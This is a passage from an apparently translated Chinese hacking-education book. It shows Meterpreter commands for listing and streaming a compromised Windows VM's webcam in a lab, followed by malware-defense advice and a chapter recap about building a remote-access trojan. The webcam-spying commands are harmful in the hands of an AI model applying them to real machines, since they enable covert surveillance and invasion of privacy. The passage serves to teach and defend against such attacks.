1.  在 Kali 中的 Meterpreter 提示符下输入 `webcam_list`，查看摄像头是否可用。你应该看到类似如下内容：

    ```
    meterpreter > `webcam_list`
    1: VirtualBox Webcam - Logitech HD Webcam C310 
    ```

    例如，我的摄像头显示为 `VirtualBox Webcam - Logitech HD Webcam C310`。

1.  输入 `webcam_stream` 通过 Meterpreter 连接到摄像头。

    ```
    meterpreter > `webcam_stream`
    [*] Starting...
    [*] Preparing player...
    [*] Opening player at: /home/kali/KMKiGQxa.html
    [*] Streaming...
    ```

    Meterpreter 将打开 Firefox，并从 Windows 虚拟机的摄像头流式传输视频，如图 6-9 所示。



图 6-9：摄像头流显示我和办公室里的书架。

你应该能看到摄像头的 LED 灯亮起，表明摄像头正在工作。与 `screenshare` 和 `keyscan` 命令不同，摄像头黑客攻击会让你知道有人在监视你。如果摄像头灯在你未使用它时亮起，请运行 *彻底* 的杀毒扫描并重启计算机，看看灯是否会熄灭。然而，不要只依赖摄像头的 LED 灯：一些高级黑客手段能够在 *不亮起* LED 灯的情况下进行间谍监视。这就是为什么练习下一节中描述的安全措施非常重要。

要停止从 Windows 10 虚拟机摄像头流式传输视频，关闭 Firefox 并在 Meterpreter 窗口按 CTRL-C 来中断 `webcam_stream` 命令。然后拿一个便签或一段胶带，覆盖掉你笔记本上的摄像头！

## 防御恶意软件

如你在本章中所见，病毒的创建和传播极其简单。你收到或打开的任何可疑邮件附件、链接、网页、应用或视频，都可能包含等待启动的恶意软件。攻击者甚至不需要太多技能，只需使用 Metasploit 并诱使人们下载病毒。一旦计算机被感染，恶意黑客可以对其进行的攻击简直让人不寒而栗。

你最好的防御措施如下：

1.  经常更新软件。定期更新你的操作系统和应用程序，从文字处理软件、网页浏览器到 PDF 阅读器——至少每月一次。选择一个固定的日期，比如每月的 1 号、15 号或 30 号，在日历上标记更新你的设备和所有应用程序。把它当作另一项必须完成的任务，就像支付账单或修剪草坪一样。Kali 中的 2000 多个漏洞大多攻击的是软件的旧版本，所以如果你保持安装最新的安全补丁，你的设备就会减少遭受攻击的风险。

1.  使用防火墙和杀毒软件。保持防火墙开启，并定期更新你的杀毒软件。有很多免费的或者低成本的杀毒工具可供选择。研究哪些杀毒软件能够阻止最多的恶意软件，然后每周更新你的杀毒工具，或者开启自动更新，以确保它能够有效地保护你。

1.  在点击之前先思考。恶意软件可以通过感染的程序文件、盗版视频，甚至是 Office 文档和 PDF 文件来传播。点对点文件共享网站上充斥着“免费”的恶意软件感染文件，等待着毫无戒心的受害者。对来自不信任来源的*任何*文件运行 VirusTotal 或其他病毒扫描工具，并且不要下载任何可疑或非法的文件。

这些措施不能让你变得无敌，但它们可以帮助你避免大多数基于恶意软件的攻击，并且使你成为一个足够困难的目标，让大多数黑客选择攻击其他受害者。大多数攻击依赖于*低垂的果实*——这是指黑客可以轻松进入你系统的机会，比如过时的软件、禁用的防火墙或杀毒程序，或者是点击链接或下载文件时没有先进行扫描的用户。不幸的是，低垂的果实足够多，足以让黑客忙碌，因此采取一些像这样的明智预防措施，能让你避免超过 90%的攻击。

哦……在不使用摄像头时，记得遮住它！

## 关键提示

在本章中，你学习了攻击者是如何创建恶意软件的，以及一台没有保护的计算机是多么容易被感染。使用 Metasploit 框架，你创建了一个 Meterpreter 远程访问木马（RAT），这是一种特殊类型的恶意软件，只要攻击者有互联网连接，就可以从世界任何地方控制你的计算机。你通过在 Kali Linux 虚拟机上启动 Apache Web 服务器，并将木马放置在共享的网页文件夹中，将你的恶意软件共享到网络中。然后，你将恶意软件下载到 Windows 虚拟机上并打开文件，从而感染了你的计算机。

接下来，你通过 Kali 中的 Meterpreter 远程 shell 控制了 Windows 虚拟机。你学习了攻击者是如何通过简单的命令上传和下载文件、窃取截图、记录按键、以及通过摄像头进行间谍活动的。在大多数攻击中，你的 Windows 虚拟机甚至没有显示出被黑的迹象。

最后，你已经学会了如何防止许多基于恶意软件的攻击。避免可疑的下载、链接和网站；保持你的防火墙和杀毒软件开启并保持最新；定期更新你的操作系统和应用程序，这些都是重要的预防措施。如果你使用多重安全防护，你将成为一个更难攻击的目标，大多数攻击者会转向更容易的猎物。

在下一章，我们将把我们的技能提高一个层次，看看不道德的黑客如何利用 Meterpreter 和其他工具窃取和破解密码。
